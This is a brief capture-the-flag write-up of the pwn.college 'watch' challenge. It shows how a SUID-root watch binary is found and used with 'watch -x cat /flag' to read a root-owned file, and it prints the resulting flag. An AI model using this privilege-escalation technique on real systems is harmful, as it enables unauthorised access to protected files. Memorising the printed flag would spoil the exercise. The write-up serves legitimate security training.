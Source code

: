 # Challenge Name: watch
**Category**: Program Misuse  
**Platform**: pwn.college  
**Difficulty**: Begineer
**Date**: 2025-07-15  
**Author**: Himanshu Parate

---

## 🧠 Summary:
The challenge abuses a SUID bit set on `/usr/bin/watch`, allowing an unprivileged user to read the root-owned flag file at `/flag`.

---

## 🔍 Enumeration

```bash
ls -l /usr/bin/watch
```

output:
```
-rwsr-xr-x 1 root root 47480 Sep  5  2019 /usr/bin/watch
```

-The `s` in `-rws` indicates it's a SUID binary.
-`watch` runs with **root privileges**.

## 🚀 Exploitation

The `watch` command in Linux is used to run a command repeatedly at fixed intervals and display its output in real time in your terminal.

- watch uses sh -t to run any command but -x allows user to run command directly as watch , as our watch is suid set we must use -x option

```bash
watch -x cat /flag
```

Output:
```
Every 2.0s: cat /flag                                                                                                                                                    program-misuse~watch: Wed Jul 16 12:36:37 2025

pwn.college{shTAmRuVovewiqzWLUz2C-Sck8C.dNzNxwSM0IzMyEzW}

```

      
